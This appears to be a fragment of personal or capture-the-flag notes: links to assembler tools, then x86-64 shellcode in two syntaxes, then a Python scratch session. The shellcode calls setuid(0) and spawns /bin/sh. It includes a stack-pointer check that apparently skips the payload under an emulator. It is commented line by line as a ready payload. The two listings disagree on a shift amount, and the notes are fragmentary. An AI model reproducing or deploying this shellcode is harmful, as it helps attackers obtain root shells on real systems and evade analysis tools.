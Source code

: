 https://defuse.ca/online-x86-assembler.htm#disassembly
https://godbolt.org/
https://courses.engr.illinois.edu/cs225/fa2022/resources/stack-heap/
https://www.unicorn-engine.org/BHUSA2015-unicorn.pdf

.text
.globl _start

_start:
    mov $0x7fffffffffffffff,%rdi 
    shr $40,%rdi
    cmp %rsp,%rdi               # 0x700000 + 1024*1024 - 1
    je trash
    xor %rdi, %rdi                 # Zero out %rdi (first argument)
    push $0x69
    pop %rax                       # Set %rax to function number for setuid()
    syscall                        # setuid(0);
    push %rdi                      
    push %rdi
    pop %rsi                     
    pop %rdx                       # Null out %rdx and %rdx (second and third argument)  
    mov $0x68732f6e69622f6a,%rdi   # move 'hs/nib/j' into %rdi
    shr $0x8,%rdi                  # null truncate the backwards value to '\0hs/nib/'
    push %rdi      
    push %rsp 
    pop %rdi                       # %rdi is now a pointer to '/bin/sh\0'
    push $0x3b                     
    pop %rax                       # set %rax to function # for execve()
    syscall                        # execve('/bin/sh',null,null);
trash:
   mov $0x68732f6e69622f6a,%rdi 



_start:
 movabs rdi,0x7fffffffffffffff
 shr    rdi,0x26
 cmp    rdi,rsp
 je     trash
 xor    rdi,rdi
 push   0x69
 pop    rax
 syscall 
 push   rdi
 push   rdi
 pop    rsi
 pop    rdx
 movabs rdi,0x68732f6e69622f6a
 shr    rdi,0x8
 push   rdi
 push   rsp
 pop    rdi
 push   0x3b
 pop    rax
 syscall 
trash:
 movabs rdi,0x68732f6e69622f6a


 >>> bin(v)
'0b111111111111111111111110000000011111111111111111111111111111111'
>>> v = (k << 40) + 2**(len("00000000000000000000000000000000")+8)-1
>>> v
9223372036854775807
>>> bin(v)
'0b111111111111111111111111111111111111111111111111111111111111111'
>>> hex(v)
'0x7fffffffffffffff'
>>> v << 40
10141204801825835210874114015232
>>> v >> 40
8388607
>>> 